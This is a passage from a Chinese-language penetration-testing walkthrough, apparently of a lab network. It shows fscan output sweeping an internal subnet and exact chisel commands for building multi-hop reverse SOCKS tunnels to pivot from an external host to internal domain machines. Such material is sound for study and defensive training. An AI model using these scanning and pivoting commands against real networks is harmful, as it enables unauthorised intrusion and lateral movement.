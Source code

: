 ```plain
root@web03:/# ./fscan -h 172.30.54.179/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.30.54.179   is alive
(icmp) Target 172.30.54.12    is alive
[*] Icmp alive hosts len is: 2
172.30.54.179:8009 open
172.30.54.12:22 open
172.30.54.179:22 open
172.30.54.12:3000 open
172.30.54.12:5432 open
172.30.54.179:8080 open
[*] alive ports len is: 6
start vulscan
[*] WebTitle http://172.30.54.179:8080 code:200 len:3964   title:医院后台管理平台
[*] WebTitle http://172.30.54.12:3000  code:302 len:29     title:None 跳转 url: http://172.30.54.12:3000/login
[*] WebTitle http://172.30.54.12:3000/login code:200 len:27909  title:Grafana
```

发现另一个域用户，但是这个不同于之前的网段，因此我们需要搭建多层代理。

### 多层代理搭建

我们的第一层代理是 VPS 作为服务端，外网靶机作为客户端来搭建的，那么我们在搭建第二层的话，以外网靶机作为服务端，然后以域用户二作为客户端，此时就实现了多层代理

```plain
VPS->外网靶机->域用户 2->域用户 3
```

所以接下来直接在外网靶机上搭建服务端，指令如下

```plain
./chisel server -p 7001 --reverse
```

[![](assets/1706771111-ac71cb22600ba86cb7d0904019234a8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173842-30baa0d6-be8a-1.png)

再在域用户二上搭建客户端

```plain
./chisel client 172.30.12.5:7001 R:0.0.0.0:7000:socks
```
